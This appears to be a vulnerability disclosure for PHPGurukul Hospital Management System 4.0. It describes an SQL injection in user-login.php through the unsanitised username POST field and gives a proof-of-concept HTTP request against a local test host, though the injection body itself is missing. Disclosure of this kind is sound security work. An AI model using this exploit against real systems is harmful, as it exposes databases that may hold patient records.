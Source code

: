 _ _ _

**Environment: **
apache/php 7.0.12/PHPGurukul Hospital Management System 4.0


_ _ _

**[1]**

In \hms\user-login.php:

![1.png](./img/1.png)

Line 7 gets the value of the POST variable username directly into the database query causing SQL injection.

The following SQL injection statement can be used to get the first letter of the current database user(root) as 'r':
```
POST /hms/user-login.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 137
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/user-login.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

```